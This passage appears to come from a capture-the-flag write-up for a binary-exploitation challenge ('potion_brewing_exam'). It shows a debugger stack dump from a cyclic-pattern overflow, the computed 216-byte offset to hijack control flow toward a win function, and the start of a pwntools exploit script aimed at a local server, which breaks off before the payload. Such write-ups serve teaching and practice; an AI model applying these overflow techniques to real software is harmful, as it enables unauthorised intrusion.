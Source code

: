 After typing the string into the read function.
```
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdc08│+0x0000: "eaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqa[...]"	 ← $rsp
0x00007fffffffdc10│+0x0008: "gaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsa[...]"
0x00007fffffffdc18│+0x0010: "iaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacua[...]"
0x00007fffffffdc20│+0x0018: "kaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwa[...]"
0x00007fffffffdc28│+0x0020: "maacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacya[...]"
0x00007fffffffdc30│+0x0028: "oaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadba[...]"
0x00007fffffffdc38│+0x0030: "qaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaadda[...]"
0x00007fffffffdc40│+0x0038: "saactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfa[...]"
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401353 <cast_spell+61>  call   0x401070 <read@plt>
     0x401358 <cast_spell+66>  nop    
     0x401359 <cast_spell+67>  leave  
 →   0x40135a <cast_spell+68>  ret    
[!] Cannot disassemble from $PC
```

```console
$ pwn cyclic -l eaac

216
```

So we need to send 216 bytes of padding followed by the address of the `get_ancient_power` function.

## Final exploit
```py
#!/usr/bin/env python
from pwn import *

##### SPECIFY BINARY #####
elf = context.binary = ELF('../src/potion_brewing_exam')

context.terminal = ['gnome-terminal', '--tab', '--']

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        ##### SPECIFY SERVER AND PORT #####
        SERVER = 'localhost'
        PORT = 13371         
        return remote(SERVER, PORT, *a, **kw)
    else:
        return process([elf.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

MAX_INT = 2147483647

UNDERFLOW = -(MAX_INT-200)
```